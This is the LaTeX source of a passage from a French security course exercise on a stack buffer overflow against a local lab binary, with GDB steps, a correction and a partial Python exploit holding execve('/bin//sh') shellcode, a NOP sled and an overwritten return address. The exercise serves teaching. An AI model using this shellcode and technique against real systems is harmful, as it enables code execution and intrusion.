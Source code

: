 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{enumerate}
\item[\textbf{3c)}] Exécuter l'exploit :
\begin{lstlisting}[style=GDBStyle]
(python3 exploit_phase3.py ; cat) | ./stackx64
\end{lstlisting}
Le \texttt{; cat} maintient \texttt{stdin} ouvert pour interagir avec le shell obtenu. Vérifier que vous obtenez un shell en tapant \texttt{whoami}.

\item[\textbf{3d)}] Expliquer pourquoi l'adresse de retour doit être écrite en \textbf{little-endian}. Convertir l'adresse \texttt{0x7fffffffde10} en little-endian.
\end{enumerate}

\begin{attention}
Les adresses peuvent être \textbf{différentes} entre GDB et l'exécution directe. GDB ajoute des variables d'environnement qui décalent la pile. Si l'exploit fonctionne dans GDB mais pas en dehors, ajustez l'adresse (typiquement quelques dizaines d'octets de différence).
\end{attention}

\begin{correction}

\textbf{3a)} Dans GDB :
\begin{lstlisting}[style=GDBStyle]
(gdb) break vulnerable_function
(gdb) run
(gdb) disassemble
   ...
   0x000000000040120e <+24>:  lea    rax,[rbp-0x40]   ; buffer = rbp - 0x40
   ...
(gdb) next   (jusqu'apres gets)
(gdb) print $rbp - 0x40
$1 = (void *) 0x7fffffffde10
\end{lstlisting}
L'adresse du buffer est \texttt{0x7fffffffde10}.

\textbf{3b)} Script Python3 pour l'exploit :
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase3.py]
import sys

# Shellcode execve("/bin//sh", NULL, NULL) - 25 bytes
shellcode = (
    b"\x48\x31\xf6"
    b"\x56"
    b"\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
    b"\x57\x54\x5f"
    b"\x48\x31\xd2"
    b"\xb0\x3b"
    b"\x0f\x05"
)

offset = 72          # buffer(64) + saved RBP(8)
nop_size = offset - len(shellcode)  # 72 - 25 = 47

# Address inside the NOP sled (middle of buffer)
# Adjust this address based on your GDB output
ret_addr = 0x7fffffffde10 + 20  # point to middle of NOP sled

nop_sled = b"\x90" * nop_size
addr_bytes = ret_addr.to_bytes(8, byteorder='little')


\end{lstlisting}
\end{correction}
\end{exercice}
\end{document}
